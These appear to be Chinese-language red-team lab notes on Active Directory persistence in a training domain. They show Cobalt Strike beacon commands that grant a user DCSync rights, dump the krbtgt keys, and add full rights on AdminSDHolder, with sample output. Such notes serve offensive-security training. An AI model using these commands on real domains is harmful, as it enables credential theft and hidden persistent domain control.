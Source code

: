 # Domain Dominance

权限维持

# DCSync Backdoor

如果已经取得了DA权限，可以为某些用户添加DCSync权限


使用```Add-DomainObjectAcl```命令为用户```bfarmer ```添加DCSync权限
```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
```

如果上面操作成功，在域中的设置应该显示如下

![alt DCSyn](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/dcsync-backdoor.png?width=1920)


现在可以用bfarmer身份执行dcsync
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```


# AdminSDHolder Backdoor

> AdminSDHolder是一个特殊的AD容器，通常作为某些特权组成员的对象的安全模板。Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的

把用户bfarmer 添加进AdminSDHolder
```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights All
```
